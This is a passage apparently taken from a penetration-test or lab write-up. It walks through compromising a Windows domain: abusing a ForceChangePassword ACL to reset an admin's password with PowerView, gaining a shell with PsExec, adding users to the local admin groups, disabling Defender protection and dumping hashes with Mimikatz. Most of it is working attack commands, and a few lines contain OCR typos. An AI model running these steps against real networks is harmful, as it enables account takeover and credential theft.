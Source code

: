 ## Steps to compromise
After successfully compromising UATSRV, we acquired the ntlm hash and clear text password for 
batchuser. Looking at the bloodhound database for batchuser, we see the first degree object control 
has an ACL to ForceChangePassword against the prodadmin user.
This means batchuser has the capability to change the user prodadmin’s password without knowing that 
user’s current password. To accomplish this we will load PowerView5 and run the function SetDomainUserPassword . The following commands were run to set the password for prodadmin to 
‘Password1!’ using the credentials of batchuser.
```
Import-Module .\PowerView_dev.ps1
$SecPassword = ConvertTo-SecureString '[strings]' -AsPlainText -Force
$Cred = New-Object 
System.Management.Automation.PSCredential('domain\batchuser', $SecPassword)
$UserPassword = ConvertTo-SecureString 'Password1!' -AsPlainText -Force
Set-DomainUserPassword -Identity prodadmin -AccountPassword $UserPassword 
-Crendential $Cred
```
Once again, we use crackmapexec to verify the credentials work
```
crackmapexec -u [user] -p [pass] -d [domain] [ip] --shares
```
Since we can write to C$, we can use PsExec to get a shell on PRODSRV
```
PsExec64. \\[instance] -u GARRISON\prodadmin -p 
Password1! cmd
```
Now that we have a shell, we can add our user to the Local Administrators and Remote Desktop Users 
group to use PSRemoting to run powershell functions easier
```
net localgroup Administrators ad /add
net localgroup "Remote Desktop Users" ad /add
```
We use Mimikatz to dump the credentials on PRODSRV, by locally loading a function in our PSSession, 
but first disabling IOAVProtection.
```
$sess = New-PSSession -ComputerName [computername]
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection 
$true} -Session $sess
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Session $true
```
We successfully got the NTLM hash for the serviceacct user
